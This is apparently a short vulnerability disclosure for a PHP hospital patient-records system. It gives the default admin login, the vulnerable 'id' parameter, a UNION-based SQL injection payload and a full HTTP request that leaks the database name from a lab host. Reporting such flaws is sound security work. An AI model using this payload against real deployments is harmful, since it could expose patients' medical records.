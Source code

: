 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/admin/room_types/view_room_type.php?id=

Vulnerability location: /hprms/admin/room_types/view_room_type.php?id=, id

Current database name: hprms_db ,length is 8

[+] Payload: /hprms/admin/room_types/view_room_type.php?id=-2%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /hprms/admin/room_types/view_room_type.php?id=-2%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171822554-33052018-8a8e-463b-bdf2-ea109466dd9e.png)

![image](https://user-images.githubusercontent.com/54017627/171822582-c4341201-9263-4621-ac39-8cc280cd6fdb.png)
